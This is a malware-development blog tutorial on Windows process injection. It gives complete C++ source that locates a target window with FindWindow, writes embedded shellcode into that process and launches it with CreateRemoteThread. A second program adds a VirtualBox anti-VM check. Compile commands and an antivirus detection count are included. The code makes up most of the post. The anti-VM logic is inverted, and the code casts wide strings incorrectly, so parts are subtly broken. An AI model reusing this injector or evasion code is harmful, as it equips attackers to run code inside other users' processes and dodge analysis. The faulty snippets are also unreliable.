




## 30. process injection via FindWindow. Simple C++ example.

{width="80%"}    

This post is the result of my self-researching one of the Win32 API function.   

One of my [previous](/pentest/2021/09/29/findmyprocess.html) posts, I wrote how to find process by name, for my injector?    

When writing process or DLL injectors, it would be nice to find, for example, all windows running in the system and try to inject into the process launched by the administrator. In the simplest case to find the any window of a process that will be our victim.    

### practical example

The flow is this technique is simple. Let's go to investigate source code:

```cpp
/*
 * hack.cpp - classic process injection 
 * via FindWindow. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/
 2022/03/08/malware-injection-17.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>

unsigned char my_payload[] =

  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main() {

  HANDLE ph;
  HANDLE rt;
  DWORD pid;

  // find a window for mspaint.exe
  HWND hw = FindWindow(NULL, (LPCSTR) "Untitled - Paint");
  if (hw == NULL) {
    printf("failed to find window :(\n");
    return -2;
  }
  GetWindowThreadProcessId(hw, &pid);
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

  LPVOID rb = VirtualAllocEx(ph, NULL,
  sizeof(my_payload), 
  MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  WriteProcessMemory(ph, rb, my_payload, 
  sizeof(my_payload), NULL);

  rt = CreateRemoteThread(ph, NULL, 0, 
  (LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
  CloseHandle(ph);

  return 0;
}
```

As usually, for simplicity I used `meow-meow` messagebox payload:    

```cpp
unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

As you can, see, the main logic is here:

```cpp
//...
// find a window for mspaint.exe
HWND hw = FindWindow(NULL, (LPCSTR) "Untitled - Paint");
if (hw == NULL) {
  printf("failed to find window :(\n");
  return -2;
}
GetWindowThreadProcessId(hw, &pid);
ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
//...
```

### Demo

Let's go to compile:    

```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -Wint-to-pointer-cast \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}    

and run:   

```bash
.\hack.exe 1304
```

{width="80%"}    

{width="80%"}    

As you can see, everything is work perfectly :)    

### anti-VM   

Another example of using this function is VM "evasion". The fact that some windows' names are only present in virtual environment and not is usual host OS.    
Let's look at an example:    

```cpp
/*
 * hack.cpp - VM evasion via FindWindow. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/
 2022/03/08/malware-injection-17.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>

unsigned char my_payload[] =

  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {

  HANDLE ph;
  HANDLE rt;
  DWORD pid;

  // find a window with certain class name
  HWND hcl = FindWindow((LPCSTR) L"VBoxTrayToolWndClass", NULL);
  HWND hw = FindWindow(NULL, (LPCSTR) L"VBoxTrayToolWnd");
  if (hcl || hw) {
    pid = atoi(argv[1]);
    ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

    LPVOID rb = VirtualAllocEx(ph, NULL, sizeof(my_payload), 
    MEM_RESERVE | MEM_COMMIT, 
    PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(ph, rb, my_payload, 
    sizeof(my_payload), NULL);

    rt = CreateRemoteThread(ph, NULL, 0, 
    (LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
    CloseHandle(ph);

    return 0;
  } else {
	printf("virtualbox VM detected :(");
    return -2;
  }
}
```

As you can see we just check if windows with the following class names are present in the OS:

```cpp
VBoxTrayToolWndClass
VBoxTrayToolWnd
```

Let's go to compile:

```cpp
x86_64-w64-mingw32-g++ hack2.cpp -o hack2.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -Wint-to-pointer-cast \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}    

And run:   

```cpp
.\hack2.exe 1304
```

{width="80%"}    

So everything is work perfectly for our VirtualBox `Windows 10 x64`    

Let's go to upload `hack2.exe` to VirusTotal:

{width="80%"}    

**So, 4 of 66 AV engines detect our file as malicious.**    

[https://www.virustotal.com/gui/file/dd340e3de34a8bd76c8693832f9a665b47e98fce58bf8d2413f2173182375787/detection](https://www.virustotal.com/gui/file/dd340e3de34a8bd76c8693832f9a665b47e98fce58bf8d2413f2173182375787/detection)     

I hope this section spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

[FindWindow](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-findwindowa)    
[Evasions UI artifacts](https://evasions.checkpoint.com/techniques/ui-artifacts.html)     
[source code in Github](https://github.com/cocomelonc/2022-03-14-malware-injection-17)        
